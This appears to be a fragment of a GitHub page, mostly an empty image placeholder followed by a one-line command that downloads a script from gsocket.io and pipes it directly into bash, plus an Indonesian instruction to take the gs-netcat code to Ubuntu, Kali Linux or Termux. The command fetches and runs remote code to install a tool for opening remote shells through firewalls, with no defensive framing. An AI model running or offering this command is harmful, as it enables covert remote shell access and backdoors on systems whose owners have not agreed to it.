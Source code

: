 ![Uploading chill.jpg…]()






bash -c "$(curl -fsSL https://gsocket.io/y)"

ambil code gs-netcat lalu ke ubuntu/kalilinux/termux
